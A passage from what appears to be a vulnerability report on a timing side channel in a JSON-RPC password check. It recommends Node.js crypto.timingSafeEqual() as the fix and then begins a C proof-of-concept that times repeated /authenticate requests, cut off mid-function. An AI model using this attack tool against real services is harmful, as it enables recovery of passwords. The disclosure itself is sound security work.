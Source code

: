 In particular, Node.js supports the following API:
https://nodejs.org/dist/latest-v6.x/docs/api/crypto.html#crypto_crypto_timingsafeequal_a_b

To fix the vulnerability, the JSON-RPC should use `crypto.timingSafeEqual()` API when comparing the two passwords.
        
## Proof of concept

## Proof of Concept
To get good timing measurements, we wrote an attacker tool in C. This can be compiled with the following command:

```
gcc -o attack attack.c && ./attack
```

Here is the source-code file `attack.c`:
```
#include <stdio.h>
#include <stdlib.h>
#include <stdbool.h>
#include <string.h>
#include <unistd.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <netdb.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <time.h>
#include <fcntl.h>

struct hostent *hp;
bool verbose = false;
int sock;

int init() {
    if ((sock = socket(AF_INET, SOCK_STREAM, 0)) < 0) {
        if (verbose) perror("socket creating error");
        return -1;
    }

    struct sockaddr_in addr;
    addr.sin_family = AF_INET;
    addr.sin_port = htons(3000);
    memcpy(&addr.sin_addr,  hp->h_addr, hp->h_length);

    if (verbose) printf("connecting\n");

    int rc = connect(sock, (const struct sockaddr *) &addr, sizeof(addr));
    if (rc != 0) {
        if (verbose) printf("failed to connect\n");
        close(sock);
        return -2;
    }

    if (verbose) printf("connected!\n");
    return 0;
}

signed long send_and_measure_inner(const char* password) {
    char buf[256];
    sprintf(buf, "GET /authenticate/%s HTTP/1.1\r\n\r\n", password);

    int i;
```